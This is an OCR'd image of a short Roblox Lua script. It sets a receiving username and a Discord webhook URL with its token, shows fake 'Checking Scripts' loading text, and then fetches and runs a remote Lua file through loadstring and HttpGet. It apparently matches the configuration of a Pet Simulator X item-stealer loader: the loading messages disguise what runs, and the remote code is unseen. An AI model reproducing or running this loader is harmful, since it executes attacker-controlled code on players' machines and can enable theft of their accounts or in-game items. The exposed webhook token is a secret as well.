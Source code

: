 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084533100714934304/1SW0Nh6dR5LRbphWwSaKR2PUBoKKgXwb09DCPRYW4LCNliOX6TFycOTW6xmeEZ9YFe_P"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Wait script "

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()

